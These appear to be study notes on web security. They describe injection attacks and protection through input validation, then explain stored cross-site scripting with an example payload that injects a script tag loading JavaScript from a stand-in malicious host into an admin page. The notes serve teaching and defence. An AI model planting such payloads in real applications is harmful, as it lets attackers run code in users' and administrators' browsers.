 Injection attacks are possible any time an application includes user input in commands to other systems:
- modified LDAP requests
- modified shell commands
- modified XML

How to protect against injection attacks:
Application must scrutinize user inputs, perform appropriate validation and ensure encoding is as expected.


#### XSS (Cross-Site Scripting) Attack
XSS is an attack on users of an application, rather than the application/systems. It involves attackers inserting malicious scripts into trusted web pages - these scripts are then executed on other unsuspecting users' browsers.

Example:
A web application stores user profiles in a database from user-facing views. Administrators can view all user profiles from admin views, and the HTML looks like:

`<input type="text" name="email" value="me@gmail.com">`

An attacker updates their email to the value
`"><script src='http://maliciousserver.net/rewritepage.js' />"`

The admin view renders unfiltered/unvalidated malicious values into the Administrator user's browser:

`<input type="text" name="email" value=""><script src='http://maliciousserver.net/rewritepage.js' />"`

A script resource containing arbitrary Javascript, `rewritepage.js` is loaded from a different domain than the admin view resource. This is "cross-site scripting" - a script from a malicious site is being run.


